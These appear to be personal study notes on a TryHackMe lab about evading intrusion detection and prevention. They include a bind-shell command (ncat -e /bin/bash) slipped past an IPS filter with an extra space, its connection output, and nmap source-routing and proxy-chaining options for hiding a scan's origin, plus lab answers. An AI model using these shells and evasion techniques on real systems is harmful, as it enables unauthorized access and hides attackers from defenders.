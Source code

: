 
What is the last line in the private key file?
*-----END PRIVATE KEY-----*


On the attached machine from the previous task, browse to http://10.10.11.122:8080, where you can write your Linux commands. Note that no output will be returned. A command like ncat -lvnp 1234 -e /bin/bash will create a bind shell that you can connect to it from the AttackBox using ncat 10.10.11.122 1234; however, some IPS is filtering out the command we are submitting on the form. Using one of the techniques mentioned in this task, try to adapt the command typed in the form to run properly. Once you connect to the bind shell using ncat 10.10.11.122 1234, find the user’s name.
Using an extra space should be sufficient to evade the IPS in this case.

![[Pasted image 20220911111759.png]]

```
root@ip-10-10-90-128:~# ncat 10.10.11.122 1234
whoami
redteamnetsec

```


### Evasion via Route Manipulation 

Evasion via route manipulation includes:

    Relying on source routing
    Using proxy servers

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/a896c0f0840e5f0352fa4fce1e450322.png)

Relying on Source Routing

In many cases, you can use source routing to force the packets to use a certain route to reach their destination. Nmap provides this feature using the option --ip-options. Nmap offers loose and strict routing:

    Loose routing can be specified using L. For instance, --ip-options "L 10.10.10.50 10.10.50.250" requests that your scan packets are routed through the two provided IP addresses.
    Strict routing can be specified using S. Strict routing requires you to set every hop between your system and the target host. For instance, --ip-options "S 10.10.10.1 10.10.20.2 10.10.30.3" specifies that the packets go via these three hops before reaching the target host.

Using Proxy Servers

The use of proxy servers can help hide your source. Nmap offers the option --proxies that takes a list of a comma-separated list of proxy URLs. Each URL should be expressed in the format proto://host:port. Valid protocols are HTTP and SOCKS4; moreover, authentication is not currently supported.

Consider the following example. Instead of running nmap -sS 10.10.11.122, you would edit your Nmap command to something like nmap -sS HTTP://PROXY_HOST1:8080,SOCKS4://PROXY_HOST2:4153 10.10.11.122. This way, you would make your scan go through HTTP proxy host1, then SOCKS4 proxy host2, before reaching your target. It is important to note that finding a reliable proxy requires some trial and error before you can rely on it to hide your Nmap scan source.

If you use your web browser to connect to the target, it would be a simple task to pass your traffic via a proxy server. Other network tools usually provide their own proxy settings that you can use to hide your traffic source.
